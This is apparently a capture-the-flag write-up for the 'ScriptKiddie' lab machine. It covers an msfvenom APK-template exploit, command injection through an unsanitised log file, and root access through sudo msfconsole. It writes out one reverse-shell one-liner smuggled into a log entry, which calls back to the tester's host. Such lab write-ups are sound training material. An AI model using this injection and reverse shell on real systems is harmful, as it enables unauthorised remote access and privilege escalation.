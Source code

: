 # ScriptKiddie

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (39) (3).png" alt=""><figcaption></figcaption></figure>

### Hacker Tools

Port 5000 presented a website where we could use tools like `nmap` and `msfvenom`:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can try it out and it works:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I tested all forms of command injection, but nothing worked. So, I started checking whether the tools themselves had exploits, and I was surprised to see that `msfvenom` was exploitable:

{% embed url="https://www.exploit-db.com/exploits/49491" %}

We just need to replace the payload in the PoC to a reverse shell and generate the APK file:

<figure><img src="../../../.gitbook/assets/image (43) (1) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can upload this as a template file on the machine and change the LHOST to our IP address:

<figure><img src="../../../.gitbook/assets/image (9) (5) (1).png" alt=""><figcaption></figcaption></figure>

Then we would get a shell:

<figure><img src="../../../.gitbook/assets/image (1) (3) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Pwn

There was another user named `pwn` on the machine, so that's probably the next path. Within the home directory of `pwn`, we can see two other files:

<figure><img src="../../../.gitbook/assets/image (40) (1) (4).png" alt=""><figcaption></figcaption></figure>

The `bash` script was running some kind of logger that reads input from `/home/kid/logs/hackers` and executes commands based on it. Take note that we have control over this file.

<figure><img src="../../../.gitbook/assets/image (38) (2).png" alt=""><figcaption></figcaption></figure>

Now, we can see how the `${ip}` variable is not being sanitised and is run with `sh -c`, so this is our RCE point. Some testing revealed that the format of the log written is `[2021-05-28 12:37:32.655374] 10.10.16.9`. We can append a reverse shell to the end:

{% code overflow="wrap" %}
```
[2021-05-28 12:37:32.655374] 10.10.16.9 | bash -c 'bash -i >& /dev/tcp/10.10.16.9/8080 0>&1' #" > /home/kid/logs/hackers
```
{% endcode %}

After echoing it in, we would gain anoter reverse shell:

<figure><img src="../../../.gitbook/assets/image (11) (1) (6).png" alt=""><figcaption></figcaption></figure>

### Sudo MSFConsole

When checking `sudo` privileges, we see that we can run `msfconsole` as root.

<figure><img src="../../../.gitbook/assets/image (5) (1) (10).png" alt=""><figcaption></figcaption></figure>

The thing about `msfconsole` is that we can run shell commands in it. In short, we have root privileges just by doing `sudo msfconsole`:

<figure><img src="../../../.gitbook/assets/image (24) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
